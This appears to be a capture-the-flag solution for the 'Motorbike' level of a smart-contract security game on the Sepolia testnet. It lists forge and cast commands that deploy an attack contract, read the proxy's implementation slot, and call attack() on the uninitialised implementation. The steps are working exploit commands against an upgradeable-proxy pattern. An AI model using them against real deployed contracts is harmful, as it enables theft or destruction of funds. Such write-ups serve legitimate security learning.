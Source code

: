 # Motorbike Solution

1) Deploy `MotorbikeHack`:

```
forge create MotorbikeHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

2) Retrieve the `implementationAddress`:

```
cast storage `ìnstanceAddress` 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc --rpc-url $SEPOLIA_RPC_URL
# truncate the first 24 zeros from `implementationAddress`
```

3) Call `attack()`:

```
cast send `motorbikeHackAddress` "attack(address)" `implementationAddress` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
